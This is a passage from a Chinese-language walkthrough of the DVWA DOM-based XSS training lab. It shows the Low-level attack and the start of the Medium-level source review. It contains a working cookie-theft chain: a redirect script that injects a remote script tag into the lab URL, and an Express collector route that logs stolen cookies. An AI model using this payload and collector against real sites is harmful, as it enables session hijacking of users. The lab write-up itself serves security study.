 ```html
                页面跳转中，请稍候。。。
            </p>
            <script src="transfer.js">

            </script>
        </div>
    </body>

</html>

```

下面是页面中执行的`transfer.js`文件，它将当前页面跳转到XSS，然后执行`hack.js`，把`cookie`发送到了`hack`端口。

```javascript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English<script src=http://localhost:8888/hack.js>\</script>";
```

服务端以`Express`为例，`hack`端口输出了传入的`cookie`，并将页面再重定向到 `www.baidu.com`。`Express` 的具体配置可以参考[另一篇博客](https://blog.csdn.net/qq_41729780/article/details/105080727)。

```node
var app = express();
app.get('/hack', function (req, res, next) {
    console.log("-----------------");
    console.log(req.query.cookie);
    console.log("-----------------");
    res.redirect('http://www.baidu.com');
});
```

最后`cookie`显示在了服务端的日志中。

![Cookie](../../../img/课程笔记/网络安全/DVWA训练/3.DVWA_XSS_DOM_All/3.showCookie.png)

$$
\text{Figure 3. Show Cookie}
$$

### 3.2. Medium

接下里是 `Medium` 难度。

我们先查看一下源码，这里对`default`属性的值做了一个判断，如果包含`<script`则将其值恢复到`English`，会将`URL`中的`JavaScript`脚本筛除掉。

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];

    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```
